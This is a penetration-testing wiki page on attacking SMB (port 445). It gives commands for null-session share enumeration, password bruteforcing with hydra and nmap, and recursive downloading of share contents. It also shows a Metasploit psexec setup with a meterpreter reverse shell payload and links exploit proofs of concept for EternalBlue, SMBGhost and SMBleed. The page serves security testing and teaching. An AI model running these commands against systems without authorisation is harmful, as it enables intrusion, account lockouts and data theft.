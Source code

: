 # 🛠️ \(445\) SMB

## Theory

SMB \(Server Message Block\) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS \(Common Internet File System\). CIFS can sometimes be referred to as SMB1 \(or SMBv1, SMB 1.0\). In 2006, Microsoft introduced SMB2 \(also referred to as SMB 2.0\), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 \(a.k.a. SMB 3.0\). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol \(see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)\).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) \(C\) and [smbmap](https://github.com/ShawnDEvans/smbmap) \(Python\) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient --list //$IP
smbmap -H $IP

# List shares (implicit null creds)
smbclient --no-pass --list //$IP

# List shares (explicit null creds)
smbclient --user ''%'' --list //$IP
smbmap -u '' -p '' -H $IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to test for null session on multiple hosts.

```bash
crackmapexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials \(e.g. Kerberos tickets in cache, logged on user creds or computer account\)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With crackmapexec
crackmapexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### 🛠️ Authenticated RCE

{% tabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```text
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}

**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" caption="Exploit" %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. \(_cmd.exe, powershell.exe_...\)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. \(je crois que ça veut dire /quiet à vérifier\)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" caption="Exploit" %}

DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" caption="Exploit" %}

Crackmapexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

### 🛠️ Unauthenticated RCE

{% tabs %}

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" caption="POC" %}

Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" caption="Walktrough" %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" caption="POC" %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" caption="Walktrough" %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" caption="POC" %}

## References

{% embed url="https://pandorafms.com/blog/what-is-wmi/" caption="" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" caption="" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" caption="" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" caption="" %}

